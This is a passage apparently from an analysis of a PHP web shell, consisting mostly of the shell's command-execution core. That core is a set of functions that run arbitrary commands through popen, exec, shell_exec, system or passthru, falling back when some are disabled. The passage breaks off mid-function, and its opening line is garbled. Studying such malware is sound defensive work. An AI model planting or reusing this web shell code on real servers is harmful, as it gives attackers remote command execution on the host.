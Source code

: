 ``` php A disk? In 2012?
} 
``` 

However, this is the piece of PHP that runs commands:
 
``` php The exec core
//w4ck1ng Shell 
if (!function_exists("myshellexec")) { 
  if(is_callable("popen")) { 
    function myshellexec($cmd) { 
      if (!($p=popen("($cmd)2>&1","r"))) { return "popen Disabled!"; } 
      while (!feof($p)) { 
        $line=fgets($p,1024); 
        $out .= $line; 
      } 
      pclose($p); 
      return $out; 
    } 
  } else { 
    function myshellexec($cmd) { 
      global $disablefunc; 
      $result = ""; 
      if (!empty($cmd)) { 
        if (is_callable("exec") and !in_array("exec",$disablefunc)) { 
          exec($cmd,$result); 
          $result = join("\n",$result); 
        } elseif (($result = $cmd) !== FALSE) { 
        } elseif (is_callable("system") and !in_array("system",$disablefunc)) { 
          $v = @ob_get_contents(); @ob_clean(); system($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v; 
        } elseif (is_callable("passthru") and !in_array("passthru",$disablefunc)) { 
          $v = @ob_get_contents(); @ob_clean(); passthru($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v; 
        } elseif (is_resource($fp = popen($cmd,"r"))) { 
          $result = ""; 
          while(!feof($fp)) { $result .= fread($fp,1024); } 
          pclose($fp); 
        } 
      } 
      return $result; 
    } 
  } 
} 
function ex($cfe) { 
  $res = ''; 
  if (!empty($cfe)) { 
    if(function_exists('exec')) { 
      @exec($cfe,$res); 
      $res = join("\n",$res); 
    } elseif(function_exists('shell_exec')) { 
      $res = @shell_exec($cfe); 
    } elseif(function_exists('system')) { 
      @ob_start(); 
      @system($cfe); 
      $res = @ob_get_contents(); 
      @ob_end_clean(); 
    } elseif(function_exists('passthru')) { 
      @ob_start(); 
      @passthru($cfe); 
      $res = @ob_get_contents(); 
      @ob_end_clean(); 
    } elseif(@is_resource($f = @popen($cfe,"r"))) { 
      $res = ""; 
      while(!@feof($f)) { $res .= @fread($f,1024); } 
```
